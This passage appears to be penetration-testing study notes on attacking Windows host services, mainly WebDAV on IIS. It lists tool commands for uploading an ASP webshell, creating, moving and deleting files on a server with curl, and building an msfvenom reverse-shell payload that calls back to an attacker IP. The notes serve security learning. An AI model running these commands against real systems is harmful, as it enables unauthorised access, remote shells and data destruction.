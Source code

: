 # Windows System/Host Based Attacks

## Exploiting Vulnerabilities for Initial Foothold

The most frequently exploited native windows services are:

|     Name      |Protocol|Port Number|
|---------------|--------|-----------|
| Microsoft IIS | TCP    | 80/443    |
| WebDAV        | TCP    | 80/443    |
| SMB/CIFS      | TCP    | 445       |
| RDP           | TCP    | 3389      |
| WinRM         | TCP    | 5985/5986 |

### Exploiting WebDAV 80/443

WebDAV is a extension that enables File interaction to the users on IIS servers.

#### WebDav with cadaver and davtest

`davtest` and `cadaver` are the tools used to attack the service.

- `davtest -url <url>/webdav -auth <user>:<password>`

- `cadaver <url>/webdav` then it will display a prompt

- directory which contains ready webshells that can be uploaded on a web server to have a shell functionality:  /usr/share/webshells
Usage Example ( after logging in with cadaver) : put /usr/share/webshells/webshell.asp

#### Using CURL

- `curl -T --user '<user>:<password>' '<file_to_upload>' '<url>'` this will upload a file to the server
- `curl -X MKCOL '<url>/<new_dir_name>'` will create a new directory on the server
- `curl -X MOVE --header 'Destination:<url>/<new_path>' '<url>/<file_to_move>'`
- `curl -X DELETE '<url>/<file_to_delete>'` will delete a specified file/dir

#### WebDav with metasploit

Create a revshell with `msfvenom` and then connecto to `metasploit` by using `multi/handler` module

`msfvenom -p <path_to_payload> LHOST=<attacker_ip> LPORT=<attacker_port> -f <output format> -o <output_name>`

Other option is related with using `windows/iis/iis_webdav_upload_asp` module

### Exploiting SMB 139/445

How does SMB authentication works:
